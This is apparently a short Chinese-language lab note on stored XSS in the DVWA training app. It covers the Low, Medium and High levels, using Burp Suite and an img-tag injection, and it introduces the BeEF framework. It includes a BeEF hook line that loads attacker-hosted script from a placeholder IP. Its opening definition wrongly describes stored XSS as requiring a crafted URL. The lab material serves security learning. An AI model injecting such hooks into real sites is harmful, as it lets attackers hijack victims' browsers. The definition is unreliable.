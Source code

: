 # XSS (Store)

```
儲存型XSS (Stored XSS):會被保存在伺服器資料庫中的 JavaScript 代碼引起的攻擊即為 Stored XSS，最常見的就是論壇文章、留言板等等，因為使用者可以輸入任意內容，若沒有確實檢查，那使用者輸入如 <script> 等關鍵字就會被當成正常的 HTML 執行，標籤的內容也會被正常的作為 JavaScript 代碼執行。而此手法需透過特定網址點入，因此攻擊者通常會以釣魚手法、社交工程等方式誘騙受害者點入連結，但因為代碼都在網址上，只要細心一點就不容易受害。
```
指說會被存入到資料庫的問題

## Low
直接對著Message 填入XSS，完成攻擊
```
    <script>123</script>
```

## Medium 
後端對Message 做了規範，但Name 指有限制大小而已
使用Burpsuite 來攔截封包，直接改封包內容進行XSS Store 攻擊

![alt text](image.png)

## HIGH
Burpsuite 攔截後
用img 來注入
![alt text](image-1.png)

## 額外閱讀 Beef XSS

beef 是一個只要XSS成功，就可以進行各種擷取的能力
安裝
```
    apt install beef-xss
```

beef code 格式

```
   <script src="http://<IP>:3000/hook.js"></script>
```

![alt text](image-2.png)

來源：
https://medium.com/blacksecurity/metasploitable-dvwa-xss-vulnerability-2c7c8facf5e9